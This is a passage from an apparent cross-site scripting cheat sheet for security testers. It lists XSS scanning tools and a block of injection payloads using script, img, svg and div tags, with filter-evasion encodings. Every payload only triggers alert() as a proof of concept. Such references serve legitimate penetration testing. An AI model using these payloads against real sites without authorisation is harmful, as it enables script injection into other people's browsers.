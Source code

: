 ### Tools 

Most tools are also suitable for blind XSS attacks:

* [XSSStrike](https://github.com/s0md3v/XSStrike): Very popular but unfortunately not very well maintained
* [xsser](https://github.com/epsylon/xsser): Utilizes a headless browser to detect XSS vulnerabilities
* [Dalfox](https://github.com/hahwul/dalfox): Extensive functionality and extremely fast thanks to the implementation in Go
* [XSpear](https://github.com/hahwul/XSpear): Similar to Dalfox but based on Ruby
* [domdig](https://github.com/fcavallarin/domdig): Headless Chrome XSS Tester

## XSS in HTML/Applications

### Common Payloads

```javascript
// Basic payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">

// Img payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

// Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
<svg><script>alert('33')
<svg><script>alert&lpar;'33'&rpar;

// Div payload
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
```
